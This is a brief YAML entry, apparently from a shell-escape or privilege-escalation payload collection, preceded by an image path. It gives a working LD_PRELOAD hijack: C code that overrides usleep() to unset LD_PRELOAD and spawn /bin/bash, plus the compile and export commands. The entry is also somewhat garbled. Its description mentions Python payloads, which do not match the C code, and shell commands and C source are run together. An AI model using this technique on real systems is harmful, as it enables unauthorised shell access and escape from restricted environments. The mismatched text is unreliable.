 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - description: Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to deplace one of the function:
      code: |
	vim script.c
	#include <stdio.h>
	#include <stdlib.h>
	void usleep() {
	  unsetenv("LD_PRELOAD");
	  system("echo ok! && /bin/bash");
	  exit(0);
	}
	gcc -shared script.c -o script
	declare -x LD_PRELOAD=/path/to/script
---
```


